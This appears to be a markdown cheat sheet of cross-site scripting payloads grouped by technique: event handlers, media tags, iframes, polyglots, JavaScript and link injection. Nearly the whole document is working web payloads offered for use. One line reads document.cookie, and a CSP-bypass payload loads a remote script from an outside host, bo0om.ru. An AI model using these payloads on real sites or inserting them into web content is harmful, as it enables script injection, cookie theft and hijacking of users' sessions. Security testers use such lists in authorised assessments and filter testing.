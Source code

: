 # Unique XSS Payloads and Techniques

### Script Injection
- "-prompt(8)-"
- '-prompt(8)-'
- ";a=prompt,a()//
- `<script>alert(1)</script>`
- `<script src=javascript:alert(1)>
- "><svg onload=alert(1)>
- <img src=1 onerror=alert(1)>
- javascript:alert(1)

"onmouseover="alert(1)
javascript:alert(1)`

### Event Handlers
- `onmouseover=alert(1)`
- `<body/onfocus=alert(1)>`
- `<marquee onstart=alert(1)>`
- `<x onclick=alert(1)>click this!`
- `<x onmousedown=alert(1)>click this!`
- `<brute onclick=alert(1)>click this!`

### Image and Media Tags
- `"'><img src="javascript:alert(1)">`
- `<img/src=1 onerror=window.alert(1)>`
- `<audio src=1 onloadstart=alert(1)>`
- `<video onloadstart=alert(1)><source>`

### Dynamic Elements
- `<svg/onload=alert(1)>`
- `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(1)">`
- `<iframe src=javascript:alert(1)>`
- `<IFRAME SRC=# onmouseover="alert(1)"></IFRAME>`

### Forms and Links
- `<form><button formaction=javascript:alert(1)>click`
- `<IMG SRC="javascript:alert(1);">`
- `<acronym onmousedown="alert(1)">test</acronym>`

- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`

